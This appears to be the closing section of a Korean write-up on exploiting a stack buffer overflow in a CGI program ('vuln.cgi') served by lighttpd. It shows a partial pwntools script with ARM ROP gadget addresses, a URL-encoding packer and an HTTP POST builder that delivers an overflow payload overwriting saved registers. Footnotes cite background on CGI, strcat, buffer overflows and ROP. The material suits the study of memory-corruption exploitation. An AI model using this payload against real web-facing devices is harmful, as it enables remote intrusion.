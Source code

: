 

#### ASLR 공격 코드

```python
#!/usr/bin/python3

from pwn import *

e = ELF("./vuln")

# Globals & Defines
spray_fix = ''
SPRAY_LEN = 0xf000
EADDR_LEN = 12

# Gadgets
sled_1 = 0x00010ca4 # pop {r11, pc}
sled_2 = 0x000108e0 # pop {r4, r11, pc}
csu_1  = 0x00010d28
csu_2  = 0x00010d0c
leave  = 0x00010ca0 # sub sp, r11, 4; pop {r11, pc}

# ETC.
str_t = 0x00010e66
abort = 0x0001055c

def purl32(value):
    a = (value & 0x000000ff) >> 0
    b = (value & 0x0000ff00) >> 8
    c = (value & 0x00ff0000) >> 16
    d = (value & 0xff000000) >> 24
    return "%{:02x}%{:02x}%{:02x}%{:02x}".format(a,b,c,d)

def form_packet(ip, param, content=''):
    packet  = ""
    packet += "POST http://{}/vuln.cgi?{} HTTP/1.1\r\n".format(ip, param)
    packet += "Host: {}\r\n".format(ip)
    packet += "Connection: keep-alive\r\n"
    packet += "Content-Length: {}\r\n".format(len(content))
    packet += "User-Agent: Mozilla/5.0\r\n"
    packet += "Accept: */*\r\n"
    packet += "Origin: http://{}\r\n".format(ip)
    packet += "Referer: http://{}/home.cgi\r\n".format(ip)
    packet += "Accept-Encoding: gzip, deflate\r\n"
    packet += "Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7\r\n"
    packet += "\r\n"
    packet += content
    packet += "\r\n"
    return packet.encode()

def form_param(payload='', spray=''):
    p = ["t=sh", "ifconfig=y"]
    if payload:
        p.append("comment="+payload)
    if spray:
        p.append("ss="+spray)
    return "&".join(p)

def payload(r11, lr, dummy_len=54):
    payload = cyclic(dummy_len).decode()
    payload += purl32(r11)
    payload += purl32(lr)
    return payload

```

[^`1]: [Wikipedia: 공용 게이트웨이 인터페이스](https://ko.wikipedia.org/wiki/공용_게이트웨이_인터페이스)
[^2]: https://www.lighttpd.net/
[^3]: [CGI Envrionment Variables](http://www.cgi101.com/book/ch3/text.html)
[^4]: [strcat](https://man7.org/linux/man-pages/man3/strcat.3.html)
[^5]: [Buffer overflow](https://ko.wikipedia.org/wiki/%EB%B2%84%ED%8D%BC_%EC%98%A4%EB%B2%84%ED%94%8C%EB%A1%9C)
[^6]: [Return oriented programming]([https://ko.wikipedia.org/wiki/%EB%B0%98%ED%99%98_%EC%A7%80%ED%96%A5%ED%98%95_%ED%94%84%EB%A1%9C%EA%B7%B8%EB%9E%98%EB%B0%8D](https://ko.wikipedia.org/wiki/반환_지향형_프로그래밍))